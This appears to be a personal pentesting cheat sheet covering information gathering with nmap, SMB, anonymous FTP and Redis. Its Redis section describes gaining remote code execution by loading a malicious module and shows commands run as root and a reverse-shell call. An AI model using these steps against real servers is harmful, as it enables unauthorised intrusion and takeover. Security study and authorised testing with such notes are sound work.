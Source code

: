 ```yaml
---
layout: default
title: Information Gathering
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: xMAD0X Shiny Adventure
---
```


## Information Gathering

###  NMAP :
#### TCP : 
```sh
nmap -Pn -n -p- --min-rate 4000 --open -sCV $IP
```

#### UDP :
```sh
nmap $IP -sU --min-rate=1000 -sC -sV
```


### SMB (445): 

#### List share : 
```sh
smbclient -L $IP
```

#### Connect to share : 
```sh
smbclient //$IP/$SHARE_NAME
```

### FTP (21): 

#### Anonymous access : 
```sh
ftp $IP
Connected to $IP.
220 (vsFTPd 3.0.2)
Name ($IP:mad0x): anonymous
331 Please specify the password.
Password: (NONE)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive //if not already on
Passive mode: on; fallback to active mode: on.
```

### Redis (6379): 
#### Interract :
```bash
redis-cli -h $IP
```

#### RCE :

##### Interractive Shell 
The following tool might help to get an access to the instance :  [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)


##### Load Redis Module

The following link provide information regarding the redis module loading : [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

**Load the module** has to be loaded so a write folder is needed. 

**Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`

**List loaded modules** to check it was correctly loaded: `MODULE LIST`

**Execute** **commands**:

```sh
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

**Unload the module** whenever you want: `MODULE UNLOAD mymodule`